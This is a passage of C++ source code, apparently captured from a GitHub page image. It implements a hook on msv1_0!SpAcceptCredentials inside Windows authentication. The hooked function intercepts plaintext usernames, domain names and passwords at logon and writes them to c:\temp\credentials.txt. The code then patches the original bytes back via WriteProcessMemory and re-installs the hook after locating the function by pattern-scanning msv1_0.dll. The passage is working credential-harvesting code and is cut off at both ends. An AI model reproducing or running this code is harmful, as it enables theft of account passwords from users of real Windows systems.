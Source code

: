```cpp
			}
		}
		++index;
	} while (index < searchBytes);

	return (PVOID)NULL;
}

NTSTATUS NTAPI hookedSpAccecptedCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	DWORD bytesWritten = 0;
	HANDLE file = CreateFileW(L"c:\\temp\\credentials.txt", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, NULL, NULL);
	_SpAcceptCredentials originalSpAcceptCredentials = (_SpAcceptCredentials)addressOfSpAcceptCredentials;

	// intercept credentials and write them to disk
	WriteFile(file, PrimaryCredentials->DownlevelName.Buffer, PrimaryCredentials->DownlevelName.Length, &bytesWritten, NULL);
	WriteFile(file, "@", 2, &bytesWritten, NULL);
	WriteFile(file, PrimaryCredentials->DomainName.Buffer, PrimaryCredentials->DomainName.Length, &bytesWritten, NULL);
	WriteFile(file, ":", 2, &bytesWritten, NULL);
	WriteFile(file, PrimaryCredentials->Password.Buffer, PrimaryCredentials->Password.Length, &bytesWritten, NULL);
	CloseHandle(file);

	// unhook msv1_0!SpAcceptCredentials
	WriteProcessMemory(GetCurrentProcess(), addressOfSpAcceptCredentials, bytesToRestoreSpAccecptedCredentials, sizeof(bytesToRestoreSpAccecptedCredentials), NULL);

	// hook msv1_0!SpAcceptCredentials again with a delay so that originalSpAcceptCredentials() can execute
	CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)installSpAccecptedCredentialsHook, NULL, NULL, NULL);
	
	// call original msv1_0!SpAcceptCredentials
	return originalSpAcceptCredentials(LogonType, AccountName, PrimaryCredentials, SupplementalCredentials);
}

void installSpAccecptedCredentialsHook()
{
	Sleep(1000 * 5);
	HMODULE targetModule = LoadLibraryA("msv1_0.dll");
	DWORD bytesWritten = 0;

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)targetModule;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)targetModule + dosHeader->e_lfanew);
	SIZE_T sizeOfImage = ntHeader->OptionalHeader.SizeOfImage;

	// find address of msv1_0!SpAcceptCredentials
	patternStartAddressOfSpAccecptedCredentials = (LPVOID)(DWORD_PTR)GetPatternMemoryAddress((char *)targetModule, startOfPatternSpAccecptedCredentials, sizeof(startOfPatternSpAccecptedCredentials), sizeOfImage);
	addressOfSpAcceptCredentials = (LPVOID)((DWORD_PTR)patternStartAddressOfSpAccecptedCredentials - 16);

	// store first sizeof(bytesToRestoreSpAccecptedCredentials) bytes of the original msv1_0!SpAcceptCredentials routine
```